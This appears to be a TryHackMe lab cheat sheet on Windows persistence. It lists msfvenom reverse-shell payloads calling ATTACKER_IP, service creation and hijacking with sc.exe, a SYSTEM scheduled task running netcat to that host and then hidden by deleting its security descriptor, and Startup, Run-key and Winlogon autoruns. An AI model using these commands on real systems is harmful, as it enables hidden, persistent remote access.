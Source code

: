 # Persisting through services
`sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto `*Create a service*

# Create Services with rev shell

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice`

# Replaces Service executables

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe`
`sc.exe query state=inactive` *Find the STOPPED Services*
`sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"` *Configure it with autostart, and replace the binary with Ours*

# Scheduled Tasks

` schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM` *Create a task*
`c:\tools\pstools\PsExec64.exe -s -i regedit` *Open regedit with psexec*
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\` *Navigate there and find the Schedule task that we created and delete the Security Descriptor (SD), by doing this our schedule task is invisible to everyone*


# StartUp
`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`*Place your file here for user persistence*
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` *Global persistence*

# Registry persistence
*Open registry with regedit and adequate perms*
`HKCU\Software\Microsoft\Windows\CurrentVersion\Run` *Runs every time for the current user*
`HKLM\Software\Microsoft\Windows\CurrentVersion\Run` *Runs every time for every user*
**New -> Expandable String Value -> In the Data Section write your path to the executable,Name it as you want**

# Winlogon One method
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`
*Userinit points to userinit.exe, which is in charge of restoring your user profile preferences.
Shell points to the system's shell, which is usually explorer.exe)*
(Interestingly, you can append commands separated by a comma, and Winlogon will process them all.)
